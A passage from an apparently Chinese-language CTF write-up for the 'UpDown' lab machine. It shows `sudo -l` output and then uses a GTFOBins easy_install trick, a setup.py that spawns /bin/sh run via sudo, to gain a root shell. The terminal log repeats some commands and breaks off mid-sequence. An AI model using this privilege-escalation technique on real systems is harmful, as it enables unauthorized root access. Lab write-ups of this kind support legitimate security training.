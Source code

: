 ## 提权

+ 列出允许用户以 root 权限运行的命令：

    ```
    developer@updown:~$ sudo -l
    Matching Defaults entries for developer on localhost:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User developer may run the following commands on localhost:
        (ALL) NOPASSWD: /usr/local/bin/easy_install

    ```

    + `easy_install`可以在不使用密码下执行，根据[gtfobins/easy_install](https://gtfobins.github.io/gtfobins/easy_install/)可进行提权利用：

        ![](/style/image/2024-02-19-22-10-28.png)

+ 提权并切换稳定shell：

    ```
    developer@updown:~$ cd /
    developer@updown:/$ dir
    bin  boot  data  dev  etc  home  lib  lib32  lib64  libx32  lost+found	media  mnt  opt  proc  root  run  sbin	srv  sys  tmp  usr  var
    developer@updown:/$ cd tmp
    developer@updown:/tmp$ dir
    systemd-private-6265206c3466439796f28ce2cb588b6a-ModemManager.service-9uSw7h
    systemd-private-6265206c3466439796f28ce2cb588b6a-apache2.service-H0Hg5f
    systemd-private-6265206c3466439796f28ce2cb588b6a-systemd-logind.service-w2Jogj
    systemd-private-6265206c3466439796f28ce2cb588b6a-systemd-resolved.service-Ic5ilg
    vmware-root_654-2688750646
    developer@updown:/tmp$ mkdir test
    developer@updown:/tmp$ cd test
    developer@updown:/tmp/test$ TF=$(mktemp -d)
    developer@updown:/tmp/test$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
    developer@updown:/tmp/test$ sudo easy_install $TF
    WARNING: The easy_install command is deprecated and will be removed in a future version.
    Processing tmp.6bPxETrQln
    Writing /tmp/tmp.6bPxETrQln/setup.cfg
    Running setup.py -q bdist_egg --dist-dir /tmp/tmp.6bPxETrQln/egg-dist-tmp-BR_IVl
    developer@updown:~$ cd /
    developer@updown:/$ cd tmp
    developer@updown:/tmp$ dir
    systemd-private-6265206c3466439796f28ce2cb588b6a-ModemManager.service-9uSw7h
    systemd-private-6265206c3466439796f28ce2cb588b6a-apache2.service-H0Hg5f
    systemd-private-6265206c3466439796f28ce2cb588b6a-systemd-logind.service-w2Jogj
    systemd-private-6265206c3466439796f28ce2cb588b6a-systemd-resolved.service-Ic5ilg
    vmware-root_654-2688750646
    developer@updown:/tmp$ mkdir test
    developer@updown:/tmp$ cd test